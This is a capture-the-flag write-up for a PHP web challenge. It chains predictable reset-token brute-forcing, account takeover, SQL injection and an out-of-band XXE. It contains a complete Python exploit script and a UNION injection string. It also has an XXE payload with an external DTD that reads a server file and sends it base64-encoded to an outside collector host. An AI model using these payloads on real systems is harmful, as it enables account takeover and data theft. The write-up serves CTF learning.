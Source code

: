 ## Challenge Name: `Typo`

Category: Web (I shouldn't even be doing this category)  
Points: 100  

Challenge Description: 
```
I like to count in base 4 and not in base too, this is why this is hard

Look at my source code, as I am sure you can see my typo

https://typhooncon-typo.chals.io/

Flag format: SSD{...}
```
The challenge provided us with the source code of the webpage.


### Approach

Looking at the source code, the only weird thing we managed to find was that when you reset an user's password, they get emailed a token to change the password. When changing it, only the first 4 characters of the token are checked. Might be bruteforcable heh.  
The token is calculated so:  
```php
$uname = mysqli_real_escape_string($mysqli, $_POST['uname']);
$s = system("date +%s%3N > /tmp/time");
$time = file_get_contents("/tmp/time");
$fullToken = md5( $unam . $time . "SECRET" );
```
Hmm, is the misspelled `$uname` the typo? We know it anyways? Weird.  
Anyways we can measure the time our request to the server takes and predict the timestamp. Writing it to a file and reading it back adds a newline though!  

What should we do next? Change the password!  
From the `robots.txt` file we know, that:  
```
# Default username is 'admin' and ID is 1 if you didn't change it
/var/www/flag
```

To change the password we need to provide an ID, a token and the new password.  
We can just keep sending password change requests until we see `Password changed` in the response. It's like 200 requests so not that bad.  
Once logged in we have access to `data.php` which allows us to craft a sql injection. That's the only sql read, that doesn't sanitize the input.  

```php
$uname = $_GET['u'];
$sql = "SELECT email FROM users where username='$uname'";

if( $result = $mysqli->query($sql) ){
	$data = @mysqli_fetch_array($result);
	$email = $data[0];
	echo $email;
}else{
	echo "Erorr";
}
```

We see, that `read.php` could have a XXE, cause it loads a XML file to check if an user exists? lol  
Let's leak the UUID that's needed to get access to `read.php` with a sql injection.  

### Solution  
Using all of that described before. It's time to come up with a multi-part exploit.  
Let's reset and change the password with a small python script:  

```python
import time
import hashlib
import requests
from threading import Thread
from queue import Queue

INDEX_URL = "https://typhooncon-typo.chals.io/index.php"
RESET_URL = "https://typhooncon-typo.chals.io/forgot.php"
NEW_PASSWORD = 'nestingdoll'
CHANGE_URL = "https://typhooncon-typo.chals.io/change.php"
LOGIN_URL = "https://typhooncon-typo.chals.io/login.php"
DATA_URL = "https://typhooncon-typo.chals.io/data.php"
# Default username is 'admin' and ID is 1 if you didn't change it
# /var/www/flag

# Thanks https://betterprogramming.pub/how-to-make-parallel-async-http-requests-in-python-d0bd74780b8a
class Worker(Thread):
    """ Thread executing tasks from a given tasks queue """

    def __init__(self, tasks):
        Thread.__init__(self)
        self.tasks = tasks
        self.daemon = True
        self.start()

    def run(self):
        while True:
            func, args, kargs = self.tasks.get()
            try:
                func(*args, **kargs)
            except Exception as e:
                # An exception happened in this thread
                print(e)
            finally:
                # Mark this task as done, whether an exception happened or not
                self.tasks.task_done()

class ThreadPool:
    """ Pool of threads consuming tasks from a queue """

    def __init__(self, num_threads):
        self.tasks = Queue(num_threads)
        for _ in range(num_threads):
            Worker(self.tasks)

    def add_task(self, func, *args, **kargs):
        """ Add a task to the queue """
        self.tasks.put((func, args, kargs))

    def map(self, func, args_list):
        """ Add a list of tasks to the queue """
        for args in args_list:
            self.add_task(func, args)

    def wait_completion(self):
        """ Wait for completion of all the tasks in the queue """
        self.tasks.join()

session = requests.session()

def postreq(url, parameters):
    return session.post(url, json=parameters).text

def getreq(url, parameters):
    return session.get(url, params=parameters).text

def validatetoken(token):
    payload = {'id': 1, 'sig': token}
    response = session.get(RESET_URL, params=payload)
    results[token] = "viewport" in response.text

results = {}

def run_exploit():
    pool = ThreadPool(30)
    offset = 0
    while True:
        token_hashes = []
        payload = {'uname': 'admin'}
        request_start_time = int(round(time.time() * 1000)) + 4000 + offset
        postreq(RESET_URL, payload)
        request_end_time = int(round(time.time() * 1000)) + 4000 + offset
        for i in range(request_end_time - request_start_time):
            cur_hash = hashlib.md5((str(request_start_time + i) + "\nSECRET").encode('utf-8')).hexdigest()
            if cur_hash[0:4] not in token_hashes:
                token_hashes.append(cur_hash[0:4])

        print("Generated {} md5 hashes for offset {}".format(len(token_hashes), 4000 + offset))
        #print("Checking tokens")
        correct_token = ''
        results.clear()
        # Validate token
        pool.map(validatetoken, token_hashes)
        pool.wait_completion()
        if True in results.values():
            for token in token_hashes:
                if results[token] == True:
                    print("Correct token found: {}".format(token))
                    correct_token = token
                    
            # Change password
            print("Trying to change password with token {}!".format(correct_token))
            payload = {'uid': 1, 'psw': NEW_PASSWORD, 'token': correct_token}
            fheaders = {'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8'}
            response = session.post(CHANGE_URL, headers=fheaders, data=payload).text
            if "Password Changed" in response:
                print("Password changed successfully")
                print("Trying to log in with new password")
                payload = {'uname': 'admin', 'psw': NEW_PASSWORD}
                response = session.post(LOGIN_URL, headers=fheaders, data=payload).text
                if "profile" in response:
                    print("Login successful")

                    print("Trying to find entry")
                    payload = {'u': '\' UNION SELECT user() -- '}
                    response = getreq(DATA_URL, payload)
                    print(response)
                    exit()
                else:
                    print("Unable to log in")
                    print(response)
                    exit()
            else:
                print("Unable to change password")
                exit()
        offset = (offset + 100) % 3100

if __name__ == '__main__':
    print("Starting exploit")
    run_exploit()
```

With the admin password changed we can log on in the browser using username admin and password nestingdoll.

My teammate was able to leak the UUID needed to exploit the XML files. I'm not sure what the correct SQL injection was, but the UUID was `8d6ed261-f84f-4eda-b2d2-16332bd8c390`  
Next from the developer console using a small javascript code I was able to send custom XML files to `read.php`  
In the end the working XXE hosted a external DTD which sent us the flag.  
Used XXE:  
`<\?xml version="1.0" encoding="UTF-8"?><!DOCTYPE replace [<!ENTITY % xxe SYSTEM "https://get.station307.com/OwKvYH1R6Mt/test.dtd"> %xxe; %ent; %send;]><user><username>admin</username></user>`  
Used DTD:  
`<!ENTITY % data SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/flag"><!ENTITY % ent "<!ENTITY &#x25; send SYSTEM 'https://nestingdoll.free.beeceptor.com/?%data;'>">`  

As PHP doesn't support newlines in an url, we need to convert the contents of flag to base64. With multiple failed attemps I finally got a request to my beeceptor link with the base64 contents.  
Decoding the base64 gives us the flag.  
Flag:  
```
I wish fllllaggggg was spelllllled with multple gggg and lllll
SSD{19e01769f56207cb4620173f9aa8789ba5b9e71a}
```

---
[Back to home](https://ergoadams.github.io/writeups/typhooncon2022/)